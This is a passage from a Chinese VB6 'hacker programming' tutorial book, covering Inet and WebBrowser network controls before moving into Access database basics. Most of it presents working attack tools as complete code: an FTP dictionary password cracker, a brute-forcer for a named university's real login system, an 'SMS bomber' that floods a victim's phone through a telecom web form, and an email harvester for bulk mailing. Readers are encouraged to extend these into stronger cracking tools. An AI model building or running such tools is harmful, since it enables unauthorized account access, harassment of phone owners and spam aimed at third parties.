            List2.AddItem Text1.Text & List1.List(ScanIndex)
        End If

        If ScanIndex < List1.ListCount - 1 Then
            ScanIndex = ScanIndex + 1
            Inet1.Execute Text1.Text & List1.List(ScanIndex)
            Me.Caption = "正在扫描" & Text1.Text & List1.List(ScanIndex)
        Else
            Me.Caption = "扫描完毕"
        End If
    End If
End Sub
```

我们尝试扫描网站“http://www.scncgz.net”，扫描的结果如图3-45，得到了有用的连接。


总结一下。这里为了说明 Inet 控件在扫描后台方面的应用，我们编写了一个非常简单的后台扫描工具。这个工具还是有很多缺陷的，但限于篇幅，我们无法在此一一进行解决。其中一个问题是，对于 404 页面自定义的网站，即使我们打开一个不存在的页面，也会返回 200，也就是“OK”，此时我们再用这个工具扫描，就会得到错误的结果了。其实“啊D注入工具”和“明小子旁注工具”都有这样的缺陷，解决的方法是，我们从网站上任意抓取一个不存在的页面，例如“Nohack1234567890.HTML”，看它是否返回 200，如果返回 200，则表明它的 404 页面是自定义的。第二个问题是，这里只使用了一个 Inet 控件，所以它的效率是很有限的。如果我们能够建立一个 Inet 控件数组，也就能实现多线程的扫描，这样程序的效率将大大提高。相关的代码已附在光盘中，读者朋友们可以参考并改进一下程序。

### 3.5.3 Inet 基于 FTP 的应用简单举例

我们知道，Inet 控件是支持 FTP 协议的，我们只要设置好了 URL、UserName 和 Password 这三个属性，就可以很容易地登录 FTP 服务器。例如，我们要登录 `FTP://www.lijiejie.com` 这个 FTP 服务器，并列出根目录到 Text1 中，就可以使用下面的代码：

```vb
Inet1.URL = "ftp://www.lijiejie.com"    ' 设置FTP连接的URL
Inet1.UserName = "test"                 ' 设置用户名
Inet1.Password = "123456"               ' 设置密码
Inet1.Execute , "ls"                    ' 使用ls命令列出根目录
While Inet1.StillExecuting              ' 如果正忙，则继续该操作
    DoEvents
Wend
Text1.Text = Inet1.GetChunk(1000)       ' 从Inet1中返回前1000字节的结果到Text1中
```


上面的代码中，Execute 的第一个参数省略，第二个参数被设置成了“ls”，也就是列根目录。While...Wend 循环用于判断程序是否正忙，如果正忙，则继续执行当前操作。当操作完成，就使用 Inet 的 GetChunk 方法返回 1000 字节的数据到 Text1 中。运行上面的代码，如图3-46所示。可以看出，根目录下有 3 个文件夹，分别是：db、log 和 web。如果我们使用一个错误的密码进行连接，则会出现如图3-47所示的错误。继续介绍 Inet 在 FTP 方面的使用。

刚才我们列出根目录时，看到有一个 web 目录，现在我们来列 web 目录：

```vb
Inet1.URL = "ftp://www.lijiejie.com"
Inet1.UserName = "test"
Inet1.Password = "123456"
Inet1.Execute , "ls web/"            ' 列web目录
While Inet1.StillExecuting           ' 如果正忙，继续当前操作
    DoEvents
Wend
Text1.Text = Inet1.GetChunk(1000)    ' 返回1000字节数据
```


图3-48 使用 Inet 列出 FTP 服务器上的目录

列出的结果如图3-48所示。

问：为什么是返回 1000 字节？

答：这是因为，我们知道 FTP 的目录信息通常不足 1000 字节，因此我们设置成 1000。当目录信息并不足 1000 字节时，会返回它实际的长度。但是当目录信息大于 1000 字节时，却只能返回前 1000 字节。所以上面返回 1000 字节的方法是有缺陷的，可以使用一个 While...Wend 循环来补充，请看下面的例子。

我们使用一个 While...Wend 循环来判断缓存中是否还有数据，这样就能保证一定可以获取到完整的目录信息：

```vb
Inet1.URL = "ftp://www.lijiejie.com"
Inet1.UserName = "test"
Inet1.Password = "123456"
Inet1.Execute , "ls web/"             ' 列web目录
While Inet1.StillExecuting            ' 如果正忙，则继续操作
    DoEvents
Wend
Dim FtpData As String
FtpData = Inet1.GetChunk(10)          ' 只返回前10个字节的数据
While FtpData <> ""                   ' 循环直到FtpData变为空
    Text1.Text = Text1.Text & FtpData
    FtpData = Inet1.GetChunk(10)      ' 返回下10个字节到FtpData变量中
Wend
```

上面的代码利用的原理是，GetChunk 方法在返回完一定字节量的数据后，如果数据仍有剩余，则可以第二次调用 GetChunk 方法返回剩余的数据。直到没有剩余的数据，GetChunk 方法返回的就是空字符串。当然了，读者朋友们在实际编程中不用每次只返回 10 字节的数据，设置成 500 是比较合适的。

### 3.5.4 使用 Inet 编写最简单 FTP 密码破解程序

FTP 密码破解程序实现起来是十分简单的，使用 Inet 代码不会超过 30 行。当然，实现 FTP 密码破解程序的方法不止一种，下面列出最简单的三种方式：

- a) 使用 Internet Transfer 控件破解
- b) 使用 Winsock 控件进行破解
- c) 使用 API 函数进行破解

下面的示例是采用 Inet 来进行破解的。新建一个工程，在窗体中画一个 ListBox（用于载入密码列表）、两个 TextBox（一个输入 URL，一个输入需要破解的 FTP 用户名）、一个按钮和一个 Timer（用于使破解不断进行下去）。控件的基本布局如图3-49所示。

在程序中我们需要载入密码字典，字典文件保存在程序目录下的 `pass.txt` 中，它的形式是一行一个密码，如图3-50所示。

将 Timer 控件的 Interval 属性设置成 1，也就是 1ms，前面说过，它的作用只是用来使破解继续下去，并不是用来延时的，所以设置成 1 毫秒就行了。然后将它的 Enabled 属性默认设置成 False，否则在还没有点按钮时它就会自动破解起来了。下面来编写我们的核心代码：


图3-49 控件的基本布局

```vb
Dim PassIndex

' 窗体载入时，将密码列表载入到List1中
Private Sub Form_Load()
    Dim ThisLine As String
    Open App.Path & "\pass.txt" For Input As #1
    While Not EOF(1)
        Line Input #1, ThisLine
        List1.AddItem ThisLine
    Wend
    Close #1
End Sub

' 单击按钮后开始破解
Private Sub Command1_Click()
    On Error GoTo ScanNext:

    If PassIndex >= List1.ListCount Then
        Me.Caption = "所有密码都已破解完毕，没有发现可用密码"
        Exit Sub
    End If

    Inet1.URL = Text1.Text
    Inet1.UserName = Text2.Text
    Inet1.Password = List1.List(PassIndex)
    PassIndex = PassIndex + 1
    Me.Caption = "正在破解密码" & Inet1.Password
    Inet1.Execute
    MsgBox "破解成功,FTP密码是：" & Inet1.Password
    Timer1.Enabled = False
    Exit Sub

ScanNext:
    ' Timer1会在1毫秒后又开始尝试下一个密码
    Timer1.Enabled = True
End Sub

Private Sub Timer1_Timer()
    Call Command1_Click
End Sub
```


图3-50 密码的保存形式是一行一个

我们对上面的代码做一些说明：

- 1. `On Error GoTo` 语句是用于当程序中出现错误时，跳到特定的某一行，而不进行错误提示。上面的代码当密码错误时，程序会产生一个错误，这个时候，程序会自动跳到 `ScanNext` 行执行后面的语句。
- 2. Inet 的 Execute 方法的所有参数都省略了，但是我们设置了 URL、UserName 和 Password，调用 Execute 方法后程序会尝试使用设置的用户名和密码进行登录。
- 3. 当我们正在尝试的密码是正确的时候，由于没有产生错误，会继续执行后面的语句，也就是提示密码正确的语句。
- 4. `Call Command1_Click` 是直接调用本窗体中的按钮单击事件，执行其中的代码。

运行此密码破解程序，我在列表中插入正确的密码，如图3-51所示，破解成功。

这里只是给大家做一个演示，功能是不完善的，很多缺陷其实是可以进行改良的。读者朋友们在看示例的基础上一定要有自己的理解。源代码已附在光盘中，有兴趣的读者朋友可以拿去改一改，做一个强大的 FTP 密码破解工具。


如图3-51 FTP 密码破解成功

### 3.5.5 使用 Inet 实现 Web 页面上的暴力破解

Inet 使用得最普遍的其实是基于 Web 上的破解。“沸雪”是一款强大的暴力破解工具，使用 Inet 控件，我们也可以实现类似的功能。

此处示例，我借用了自己学校一个实名制登录的 Web 程序，仅从程序本身做一些说明。本文之前已发表在了《黑客防线》杂志上。在这里拿出来供读者朋友们参考，全文如下。

许多大学都要求学生在使用网络之前必须进行实名认证，也就是说必须登录才能够连接到网络，这样一来学校就可以监测学生的上网情况，同时对一些非法访问进行记录。“亿邮身份认证系统”是使用得非常普遍的系统之一，图3-52是其登录页面。今天我们就来针对实名制认证编写一个破解程序。

首先了解一下页面的基本情况。这套程序采用 PHP 编写，登录时要求填入用户名和密码。表单的名称是 User，在下拉列表框中选择域，即选择是学生还是老师；表单中用户名为 loginuser，密码为 password，域是 domainid。当 domainid 为 1 时表示是教师，为 2 时表示是学生。表单的提交地址是 `http://login.nwpu.edu.cn/php/user_login.php`，提交方式是 POST。请参考一下页面中的关键 HTML 代码：

```html
<form action=http://202.117.80.230/php/user_login.php method=post name=user>
    <input type=hidden name=logintype>
    <select>
        <option>::::请选择域::::</option>
        <option value='1' selected>[教职工] nwpu.edu.cn</option>
        <option value='2'>[学生] mail.nwpu.edu.cn</option>
    </select>
    <input name=loginuser type="text">
    <input name=password type=password>
</form>
```


图3-52 亿邮系统登录界面

#### 编程实现

破解程序的控件布局如图3-53所示，除了命令按钮，还需要一个 TextBox，用于输入用户名，三个 ListBox，第一个用于载入最常用的密码，第二个用于显示工作进度，第三个用来显示破解成果。除此之外，还需要一个 Inet 控件，使用它采用 POST 方法向页面提交数据。另外，一个 CommonDialog 控件则是用来让用户载入密码字典的。进度条 ProgressBar 控件可以显示密码破解进度。

接下来我们看看关键的代码部分。密码是从外部文件载入到 ListBox 里面的，因此可以在 Form1 的 Load 事件中添加下面的代码：


图3-53 控件的基本布局

```vb
Private Sub Form_Load()
    ' 载入密码列表
    Dim fso
    Set fso = CreateObject("scripting.filesystemobject")   ' 创建fso对象
    If Not fso.fileexists(App.Path & "\toload.inf") Then   ' 找不到密码文件，退出程序
        MsgBox "默认密码文件找不到，程序退出", vbInformation, "Bingker Union"
        End                                                ' 退出程序
    End If
    Set toload = fso.opentextfile(App.Path & "\toload.inf")   ' 打开文件toload.inf
    While Not toload.atendofstream                            ' 循环直到文件尾
        List1.AddItem Trim(toload.readline)                   ' 逐行向List1中添加密码
    Wend
End Sub
```

因为需要显示密码破解的进度，所以我们需要在窗体通用部分声明一个全局变量。代码是：

```vb
Dim check1 As Integer   ' 全局变量，存放已经检测的密码个数，初始为0，检测结束时置0。
```

当我们点击“开始工作啦，给我破”这个按钮时，程序开始进行破解。Button1 的 Click 事件代码为：

```vb
Private Sub Command1_Click()
    If Command1.Caption = "开始工作啦，给我破" Then
        Command1.Caption = "停止破解,stop"                   ' 开始之后改变按钮的caption
        If List1.ListCount = 0 Then                          ' 如果密码列表为空，就停止探测
            MsgBox "请载入密码列表再进行探测", vbInformation, "Bingker Union"
        Else
            check1 = 0                                       ' 密码列表不为空，则已检测密码数量0
            ProgressBar1.Value = 0                           ' 进度条初始量0
            ProgressBar1.Min = 0                             ' 初始进度条最小值
            ProgressBar1.Max = CInt(List1.ListCount) + 1     ' 初始进度条最大值
            Inet1.Cancel                                     ' 运行时首先重置Inet1
            Inet1.Execute "http://login.nwpu.edu.cn/php/user_login.php", "Post", "loginuser=" & Trim(Text1.Text) & "&password=" & List1.List(check1) & "&domainid=2", "Content-Type: application/x-www-form-urlencoded"
            ' 第一次使用POST方法提交数据
        End If
    Else                                                     ' 如果点击“停止破解”，则停止破解进程
        Inet1.Cancel                                         ' 重置Inet
        Command1.Caption = "开始工作啦，给我破"               ' 改变按钮的caption属性
    End If
End Sub
```

当程序第一次提交数据之后，我们还必须为 Inet 的 `StateChanged` 事件添加代码，让破解循环下去，直到程序成功地破解出密码，或者尝试完所有载入的密码后终止。关键代码如下：

```vb
Private Sub Inet1_StateChanged(ByVal State As Integer)
    If State = 12 Then
        ProgressBar1.Value = ProgressBar1.Value + 1
        getcode = Inet1.GetChunk(500)
        If InStr(getcode, "错误") Then
            check1 = check1 + 1
            If check1 <= List1.ListCount Then
                Inet1.Cancel
                List2.AddItem "正在检测密码:" & List1.List(check1 - 1) & " 密码错误"
                List2.ListIndex = List2.ListCount - 1
                Inet1.Execute "http://login.nwpu.edu.cn/php/user_login.php", "post", "loginuser=" & Trim(Text1.Text) & "&password=" & List1.List(check1) & "&domainid=2", "Content-Type: application/x-www-form-urlencoded"
            Else
                MsgBox "所有密码已检测完毕!!!没有发现可用的密码!", vbInformation, "Bingker Union"
                Command1.Caption = "开始工作啦，给我破"
                Exit Sub
            End If
        Else
            List3.AddItem "用户名:" & Trim(Text1.Text) & " 密码:" & Trim(List1.List(check1))
            MsgBox "恭喜您，密码已经破解成功!!!!破解终止", vbInformation, "Bingker Union"
            List2.AddItem "正在检测密码:" & List1.List(check1) & " 密码正确!!"
            Command1.Caption = "开始工作啦，给我破"
        End If
    End If
End Sub
```

> **提示：**上面代码 if 语句嵌套使用较多，请大家理清层次。代码是我早期写的，请见谅。

可以看出，我们仅仅依赖于 inet 的 state_changed 事件就完成了所有的破解任务。由于程序中还有一个手工载入密码列表的按钮，所以我们为它添加相应代码：

```vb
CommonDialog1.InitDir = App.Path
CommonDialog1.Filter = "所有密码文件(*.*)"
CommonDialog1.DialogTitle = "请选择您需要载入的密码文件"
CommonDialog1.ShowOpen
If CommonDialog1.FileName <> "" Then
    List1.Clear
    Dim fso
    Set fso = CreateObject("scripting.filesystemobject")
    Set toload = fso.opentextfile(CommonDialog1.FileName)
    While Not toload.atendofstream
        List1.AddItem Trim(toload.readline)
    Wend
Else
    MsgBox "您没有选中任何文件", vbInformation, "冰域剑客 Bingker Union"
End If
```

#### 总结

这样下来，程序就基本完成了。大家可以看到，Inet 控件在网络编程方面的应用是非常广泛的，学习 VB 网络编程的读者朋友都应该好好掌握一下。

我用这篇文章为大家说明一下使用 Inet 进行 Web 暴力破解的知识，如果在这个程序中建立控件数组，也就是建立多个 Inet 控件，是可以实现多线程暴力破解的。在光盘中附上了笔者近期写的一个多线程 Web 弱口令扫描工具，它是通过建立 Inet 控件数组来实现暴力破解的。


### 3.5.6 参考资料

下面为大家提供一个参考资料，里面有 Inet 控件详细的使用方法，全英文的资料，标题为 Microsoft Internet Transfer Control，网址是 http://msdn.microsoft.com/zh-cn/library/aa239740(en-us,VS.60).ASPx。

## 3.6 网络编程实例

黑客编程里面，网络编程是最重要的。为了加深大家的理解，现在为大家举出更多的应用实例，包括使用“WebBrowser 编写手机短信轰炸机”和“Email 地址抓取小蜘蛛”程序。

### 3.6.1 使用 WebBrowser 编写“手机短信轰炸机”

编写手机短信轰炸机的原理是在某个发送短信的网页上，反复提交某个手机号，再让系统反复给这个号码发送消息。我们必须先找到这样的一个网页才行。我找的网页是无线网络体验的一个页面（http://www.dhjl.cn/wlan/），当你提交自己的手机号后，系统会将一个无线网络体验账号的密码发送到你的手机上，如图 3-54 所示。

我们只需要在此处填写好手机号码，并单击确定，就会收到来自陕西电信的一条短信，发送成功后会有“发送成功”的提示。发送页面上的关键表单代码如下：

```html
<form name="form1" method="post" action="Default.ASPx" id="form1">
<input name="TextBox1" type="text" maxlength="11" id="TextBox1"/>
<input type="submit" name="Button1" value="确定" id="Button1" />
</form>
```

表单的名称是 Form1，提交到 Default.ASPx 这个页面。手机号码输入框的名称是 TextBox1，确定按钮的名称是 Button1。

我们要做的，就是在这个页面上，反复提交某一个人的手机号码，让程序反复发送。程序中控件的基本布局如图 3-55 所示。

我们需要两个 TextBox（输入手机号码和发送条数）、一个按钮、一个 ListBox（名称是 statelist，显示当前发送的进度）、一个 WebBrowser（用于发送短信，我们将它的宽和高设置成了 1，所以窗体上看不见）、一个 Timer（Enabled 属性设置成 False，Interval 属性设置成 3000）。下面来编写代码：


```vb
' 在通用部分进行变量的声明
Option Explicit      ' 强制变量声明
Dim sent As Integer  ' 已经发送的条数
Dim pstate As Integer    ' 程序当前的状态，即 Program State

Private Sub Command1_Click()
    ' 如果手机号码输入的不是 11 位，或者不是数字，则提示错误
    If Len(mtext.Text) <> 11 Or (Not IsNumeric(mtext.Text)) Then
        MsgBox "手机号码格式错误!请重新输入", vbInformation, "手机轰炸机 Beta 1.0"
    ElseIf Not IsNumeric(Text1.Text) Then              ' 如果填写的短信数不是整数
        MsgBox "发送的条数必须为整数", vbInformation, "手机轰炸机 Beta 1.0"
        Text1.Text = 20
    Else
        ' 填入信息正确，准备发送
        pstate = 1                                    ' 程序状态变为 1
        statelist.AddItem "程序开始载入发送页面......"      ' 添加进度信息
        sent = 0                                      ' 初始发送了 0 条
        WebBrowser1.Navigate "http://www.dhjl.cn/wlan/" ' 打开电信的发送页面
    End If
End Sub

Private Sub Timer1_Timer()
    On Error Resume Next                              ' 防止没有表单，容错
    WebBrowser1.Document.Forms("form1").button1.Click ' 提交号码，发送短信
    statelist.AddItem "程序给 " & mtext.Text & " 第 " & sent + 1 & " 次发送成功"
    sent = sent + 1                                   ' 已发送条数增加 1
    Timer1.Enabled = False                            ' Timer 不可用
End Sub

Private Sub WebBrowser1_DocumentComplete(ByVal pDisp As Object, URL As Variant)
    On Error Resume Next                              ' 防止没有表单而出错
    WebBrowser1.Silent = True                         ' 设置成 True，防止网页中出现脚本错误
    If pstate = 1 Then                                ' 如果程序当前状态是 1
        ' 打开电信发送页面完毕，自动填入手机号码
        WebBrowser1.Document.Forms("form1").TextBox1.Value = mtext.Text
        If sent < Text1.Text Then                     ' 如果已发送条数少于设定的值，则调用 Timer 来发送
            Timer1.Enabled = True
        Else
            statelist.AddItem "所有的信息都已经发送完毕!!"
            pstate = 0                                ' 程序状态恢复为 0
            Timer1.Enabled = False                    ' Timer1 不可用
        End If
    End If
End Sub

Private Sub WebBrowser1_NavigateComplete2(ByVal pDisp As Object, URL As Variant)
    ' 不弹出提示对话框
    pDisp.Document.parentWindow.execScript "window.alert=null;"
End Sub

Private Sub WebBrowser1_NewWindow2(ppDisp As Object, Cancel As Boolean)
    Cancel = True                                     ' 不打开新窗口
End Sub
```

对于上面的代码，我们做一些说明。WebBrowser1.Document.Forms("form1").button1.Click 的作用是单击网页中 Form1 表单里的 button1，它和我们使用鼠标来单击按钮实现的效果是一样的。pDisp.Document.parentWindow.execScript "window.alert=null;" 的作用是不让网页弹出提示框，如果你有一定的 Javascript 相关知识，则很容易理解。如果读者朋友们对 Javascript 还不太了解，此处可略过。WebBrowser1.Silent=True 的作用是防止网页弹出脚本错误的提示，如果网页中有脚本错误，则忽略。

## 总结一下

使用 WebBrowser 来自动发送消息是很方便的，因为我们可以很容易地设置窗体中对象元素的属性。然而，需要指出的是，它的效率并不是很理想，仅比手工发送的效率高几倍而已。在可能的情况下，如果网页没有对提交频率做限制，则尽量使用 Inet 控件来完成提交工作。使用 Inet 控件数组来提交数据，则 1 秒钟内发出 60 条数据是没有问题的。

### 3.6.2 使用 Inet 控件实现“Email 抓取小蜘蛛”

邮件群发软件需要实现的一个重要功能是对邮箱地址的搜集工作。我们可以通过一些关键字在搜索引擎上进行搜索，然后访问所得的结果页面抓取邮箱地址。使用 VB 可以比较容易地实现相关功能。

程序实现的具体原理是，让用户键入一个关键字，在百度上进行搜索，然后将百度搜索结果中的有用超链接添加到一个列表框中。百度每页默认是 10 条链接，当我们添加了 3 页链接，也就是约 30 条链接时，程序开始依次在这些有用链接中获取邮箱地址。当抓取邮箱地址完毕，则继续添加百度搜索结果中后面 3 页的链接，如此循环下去，便可获取此关键字的大量邮箱。

程序界面的基本布局如图 3-56 所示。需要使用到的控件分别是 4 个 command 按钮、一个 textbox、两个 listbox、一个 inet 控件、一个 WebBrowser 控件（宽和高的属性值设置成了 1，用户不可见）和一个 timer 控件。Textbox 可以允许用户输入关键字，WebBrowser 则用于打开百度搜索页获取超链接。在程序通用部分进行如下声明：

```vb
Option Explicit
Dim baidupage As Integer    ' 强制变量声明
Dim pagecount As Integer    ' 百度搜索结果当前的页数
Dim state As Integer        ' 已经获取的百度页面数
                           ' 程序当前状态
```

窗体载入事件的代码为：

```vb
Private Sub Form_Load()
    Inet1.Cancel              ' 退出 inet 当前操作
    WebBrowser1.Stop          ' WebBrowser 停止
    state = 0                 ' 程序当前状态置 0
End Sub
```

下面为“搜索并采集邮箱地址”按钮添加下面的代码：

```vb
state = 1                         ' 程序当前状态为 1
pagecount = 1                     ' 百度搜索结果已经打开一页
baidupage = 1                     ' 当前搜索页初始为第一页
WebBrowser1.Navigate "http://www.baidu.com/s?wd=" & Text1.Text   ' 进行关键字搜索
```

当 WebBrowser 打开这个搜索页面时，会产生一个 DocumentComplete 事件，此时页面已经下载完毕，我们可以从中提取出有用的信息。该事件的代码为：


```vb
Private Sub WebBrowser1_DocumentComplete(ByVal pDisp As Object, URL As Variant)
    On Error Resume Next
    If state = 1 Then
        Dim gettable, idname, gettable2, gettable3
        ' 获取页面中所有 table 对象，百度搜索结果中每条链接都是放在一个表格中的
        Set gettable = WebBrowser1.Document.getelementsbytagname("table")
        Dim i As Integer
        For i = 0 To gettable.length - 1
            idname = gettable.Item(i).id
            If idname <> "" Then
                ' 返回取得 table 中 td 对象
                Set gettable2 = gettable.Item(i).getelementsbytagname("td")
                ' 取得第一个 td 标签中的 A 对象
                Set gettable3 = gettable2.Item(0).getelementsbytagname("A")
                Dim urltemp As String
                urltemp = gettable3(0).href
                ' 为了加快检索速度，只选取 HTML 页面中的地址
                If (Mid(urltemp, Len(urltemp) - 3, 4) = "HTML" Or Mid(urltemp, Len(urltemp) - 2, 3) = "htm") Then
                    List2.AddItem urltemp
                End If
            End If
        Next

        ' 获取链接的百度页面数小于 3，继续访问下一页
        If pagecount <= 3 Then
            ' pn 的值为 pagenumber，可以通过改变它来向下翻页
            WebBrowser1.Navigate "http://www.baidu.com/s?lm=0&si=&rn=10&ie=gb2312&ct=0&wd=" & Trim(Text1.Text) & "&pn=" & baidupage * 10 & "&ver=0&cl=3&uim=0&usm=0"
            baidupage = baidupage + 1
            pagecount = pagecount + 1
        Else
            Command1_Click
        End If
    End If
End Sub
```

从上面的代码可以看出，如果页面收集完毕，是通过 Command1 的 Click 事件来开始收集邮箱地址的，这也是为什么我们的程序上面有一个浅色的按钮，跟其他三个不一样的原因。下面为它添加如下的代码：

```vb
Private Sub Command1_Click()
    Dim j As Integer
    For j = 1 To List2.ListCount
        While Inet1.StillExecuting
            DoEvents
        Wend
        Inet1.Execute List2.List(j - 1)
        List2.Selected(j - 1) = True
    Next
    Timer1.Enabled = True
End Sub
```

我们简单地采用一个 for 循环来依次打开 List2 中获取的每一个超链接页面。当 Inet1 的 state 改变时，则可以添加相应的代码：

```vb
Private Sub Inet1_StateChanged(ByVal state As Integer)
    If state = 11 Then              ' 如果连接出错，即 icError，退出 Sub 过程，继续连接下一个页面
        Exit Sub
    ElseIf state = 12 Then          ' 请求完成，使用 cmail 过程采集地址
        Call cmail
    End If
End Sub
```

上面用到的 `cmail` 是一个专门用于采集邮箱地址的 Sub 过程，它也是本程序的核心部分。

在新建的一个模块中写入相关代码：

```vb
Option Explicit                         ' 强制变量声明
Dim smail, sall As String               ' 声明两个字符串变量
Sub cmail()
    On Error GoTo checkerror            ' 如果出错，则直接跳出 Sub 过程
    Dim stemp As String                 ' 声明一个字符串变量
    stemp = Form1.Inet1.GetChunk(1000)  ' 获取前 1000 字节数据
    Do While stemp <> ""                ' 如果前 1000 字节数据不为空
        sall = sall & stemp             ' 合并到 sall 字符串中
        stemp = Form1.Inet1.GetChunk(1000)
        ' 如果 sall 字节数大于 500000 则退出循环
        ' 因为如果页面文件太大，处理起来效率不高
        If Len(sall) > 500000 Then Exit Do
    Loop

    Dim looptime As Integer             ' 声明循环计数变量
    looptime = 0
    While InStr(sall, "@")              ' 如果页面数据中存在字符 @，则执行循环中的代码
        looptime = looptime + 1         ' 循环的次数增加 1
        If looptime >= 20 Then Exit Sub ' 如果循环次数超过 20，则直接退出 Sub 过程

        ' 声明两个变量，存放邮箱地址中字符的起始和结束位置
        Dim pstart, pend As Integer
        pstart = InStr(sall, "@")         ' 取得 @ 所在的位置
        smail = Mid(sall, pstart - 15, 30)' 获取 @ 前后的 30 位字符
        pstart = InStr(smail, "@")        ' 取得 smail 中 @ 的位置
        pend = pstart                     ' 初始设置结束和开始位置赋值相同，用于后面循环判断

        Dim getone As String              ' 字符串变量，用于取得一个字符
        getone = Mid(smail, pstart - 1, 1)' 取得 @ 左边的一个字符

        ' 如果该字符是大小写字母，或者数字、"_" 或 "."，合法的邮件地址字符
        While (getone >= "a" And getone <= "z") Or (getone >= "A" And getone <= "Z") _
           Or (getone >= "0" And getone <= "9") Or (getone = "_") Or (getone = ".")
            pstart = pstart - 1             ' 开始位置向前移动一位
            getone = Mid(smail, pstart - 1, 1) ' 继续取得前一位字符，循环判断
        Wend                                ' 得到了开始的位置，下面开始获取结束的位置

        ' 如果 @ 前面没有用户名，则跳到 noadd
        If pstart = InStr(smail, "@") Then GoTo noadd

        If InStr(LCase(smail), ".com.cn") Then         ' 如果是 .com.cn 后缀的域名服务器
            pend = InStr(LCase(smail), ".com.cn") + 6  ' 获取邮箱字符串的结束位置
        ElseIf InStr(LCase(smail), ".net.cn") Then     ' 如果是 .net.cn 的类型
            pend = InStr(LCase(smail), ".net.cn") + 6
        ElseIf InStr(LCase(smail), ".com") Then
            pend = InStr(LCase(smail), ".com") + 3
        ElseIf InStr(LCase(smail), ".net") Then
            pend = InStr(LCase(smail), ".net") + 3
        ElseIf InStr(LCase(smail), ".cn") Then
            pend = InStr(LCase(smail), ".cn") + 2
        ElseIf InStr(LCase(smail), ".org.cn") Then
            pend = InStr(smail, ".org.cn") + 6
        ElseIf InStr(LCase(smail), ".org") Then
            pend = InStr(smail, ".org") + 3
        Else
            GoTo noadd
        End If

        Form1.List1.AddItem Mid(smail, pstart, pend - pstart + 1)
        If Form1.List1.ListCount >= 100 Then
            On Error Resume Next
            MkDir App.Path & "\email"
            Dim fso
            Set fso = CreateObject("scripting.filesystemobject")
            Dim k As Integer
            k = 1
            While fso.fileexists(App.Path & "\email\" & k & ".txt")
                k = k + 1
            Wend
            Open App.Path & "\email\" & k & ".txt" For Output As #1
            Dim l As Integer
            For l = 1 To Form1.List1.ListCount
                Print #1, Form1.List1.List(l - 1) & ";"
            Next
            Close #1
            Form1.List1.Clear
        End If

        On Error Resume Next
        If Form1.List1.List(Form1.List1.ListCount - 1) = Form1.List1.List(Form1.List1.ListCount - 2) Then
            Form1.List1.RemoveItem Form1.List1.ListCount - 1
        End If

noadd:
        sall = Replace(sall, smail, "")
    Wend

checkerror:
    Exit Sub
End Sub
```

上面的代码非常关键，它对获取邮箱的过程做出了一些细致的处理。比如说，当一个页面的字节数大于 500000 时，就只取其前 500000 字节，这样就可以防止程序在获取非常大的页面时卡死。同时，程序还对循环次数做出了判断，当循环的次数超过 19 次时，则直接退出循环。某些时候，一个网页上可以出现甚至几百个邮箱地址，在处理这种页面时，程序可以只获取前 19 个邮箱地址，防止因为一个页面中邮箱地址过多而卡死。到这个地方，程序就完成了对百度中前 3 页所有连接页面中邮箱地址的收集。为了使程序循环下去，只需要为 Timer1 添加事件代码，因为在 Command1 的 Click 事件中，我们已经看到了 Timer1 的影子，它可以使程序不断地循环下去，而且有一定的延迟（Interval 设置成 2000 毫秒）：

```vb
Private Sub Timer1_Timer()
    List2.Clear
    pagecount = 1
    WebBrowser1.Navigate "http://www.baidu.com/s?lm=0&si=&rn=10&ie=gb2312&ct=0&wd=" & Trim(Text1.Text) & "&pn=" _
        & baidupage * 10 & "&ver=0&cl=3&uim=0&usm=0"
    Timer1.Enabled = False        ' Timer1 恢复为不可用
End Sub
```

#### 总结

到此，“邮箱地址小蜘蛛”的主要代码编写工作结束。通过测试，程序可以抓取到大量的邮箱地址。我们还可以进行界面的一些优化，为方便用户进行其他操作，可以提供一个类似于迅雷的悬浮窗，大家可以参考笔者提供的代码。这个程序中最有借鉴价值的部分应该是采集过程 `cmail` 的代码。当然，读者朋友们还可以想出更多好办法来实现地址的提取，这里只是提供一个思路。

## 3.7 本章小结

本章介绍了网络编程的相关内容，主要是 WebBrowser 控件和 Internet Transfer 控件的使用方法。利用这两个控件，我们还可以编写出更多基于网络的应用程序，希望读者朋友可以借助示例发散思维。

## 第四章

## 数据库编程

## 4.1 引言

虽然，数据库编程在黑客编程中体现的地方不是非常多，但事实上，数据库操作是 VB 编程的重要应用之一，如超市、医院的管理系统，都是需要使用到数据库的。大家看我们常用的注入工具“啊D注入”和“明小子旁注”，是不是都附带了一个数据库？在数据库中，它们都保存了一些重要的数据，诸如常见的表段、字段、后台 URL、存在漏洞的页面 URL 等。

在本章中笔者不会对数据库基础做过多介绍，仅介绍常用的用于数据库绑定操作的控件：DAO、Adodc、DataGrid 等，同时只连接到本地的 Access 数据库进行一些基本操作。

## 4.2 Access 数据库的建立

建立 Access 数据库我们可以使用 Microsoft Access 2003。在 Access 数据库中，涉及到表、字段和记录的概念，分别说明如下：

- 1. **数据表**：是相关联的行列数据集合。它类似于一个表格。
- 2. **字段**：数据表中的一列称为一个字段。字段名必须是唯一的。一个字段中存放同一类型的数据，不同字段存放的数据类型则可以不同。一个字段中所存放的数据类型、数值大小及字段长度是该字段属性。
- 3. **记录**：数据表中的每一行为一个记录。
- 4. **主键**：每个表都有一个主键，主键字段的数据是表中一条记录的唯一标识。标识了主键的数据表中，各条记录是唯一的。


下面我们来一步一步地使用 Access 2003 建立一个数据库。

打开 Access 2003，首先在工具栏中单击“新建”按钮，此时软件右侧出现新建文件的选项，如图 4-1 所示。我们选择“空数据库”，程序会提示保存本地数据库的路径，如图 4-2 所示。在保存类型选项中，选择“Microsoft Office Access 数据库”，它的文件扩展名是 mdb。选择一个合适的文件夹保存文件即可。此处示例将数据库文件保存在 D 盘根目录下，文件名为 db1.mdb。保存文件之后，我们会进入设计视图，如图 4-3 所示。


选择“使用设计器”创建表。此时要求我们输入表中的字段名称和数据类型，如图 4-4 所示。可选的数据类型如图 4-5 所示。比如说，我们要创建一个保存管理员信息的表，就可以创建三个字段：ID（自动编号）、UserName（文本）、PassWord（文本）。


填写好的结果如图 4-6 所示。

填写完字段信息，我们单击工具栏中的“保存”按钮，会弹出一个对话框，要求输入表的名称，如图 4-7 所示，我们输入“Admin”即可。

这样一来，我们就创建了一个“Admin”表，在这个表中，我们保存管理员的信息，有管理员的 ID、Username 和 PassWord。使用同样的方法，我们还可以创建其他数据表，例如 News、Product 等。

数据表创建成功后，我们来添加几条记录。单击视图中的表名，可以浏览和编辑该表的记录。如图 4-8 所示，笔者添加了 3 条记录。

此时单击保存，我们添加的所有记录就都保存到数据库中了。接着关闭 Microsoft Access 即可。

